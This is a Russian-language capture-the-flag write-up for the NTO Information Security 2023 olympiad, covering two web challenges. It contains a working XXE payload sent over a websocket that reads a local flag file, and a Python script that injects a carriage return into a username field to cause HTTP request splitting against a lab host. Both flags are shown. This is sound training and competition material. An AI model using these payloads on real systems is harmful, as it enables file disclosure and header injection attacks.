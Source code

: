 # Отчет NightmareFuel

> 🏆 **НТО Информационная Безопасность 2023**
> 

> 😎 **В главных ролях:** *Газизуллин Даниил, Андуков Алмаз, Тимофеев Никита, Иванов Лев*
> 

# 💥 Часть 1: Наступательная кибербезопасность

## 🌐 Web-1

> Метод решения: **XML External Entity**. Можно изменить представление входных данных на XML, подогнав структуру под изначальный JSON, внедрив в это представление полезную нагрузку для атаки XXE.
> 

```jsx
socket.addEventListener('message', (event) => {
    console.log(JSON.parse(decrypt(JSON.parse(event.data).data)).data);
});

socket.send(JSON.stringify(encrypted({
    format: 'xml',
    data: '<?xml version="1.0"?><!DOCTYPE data [<!ENTITY test SYSTEM \'file:///flag.txt\'>]><data>&test;<countries></countries><resttype>1</resttype><startdate></startdate><enddate></enddate></data>'
})));
```

<aside>
🏁 Flag: `nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}`

</aside>

## 🌐 Web-2:

> Метод решения: **HTTP Request Smuggling**. Можно произвести атаку HRS (HTTP Request Splitting), используя поле username, которое без должной фильтрации подставляется в заголовок запроса Cookie. Добившись ошибки валидатора переносов строк (должны быть CRLF, передаем только CR), получаем сообщение о ней вместе с флагом, который находится дальше
> 

```python
import requests as r

print(r.post("http://10.10.10.10:3002/register", data={
    "username": "\r",
    "password": " ",
}).text)
```

<aside>
🏁 `NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}`
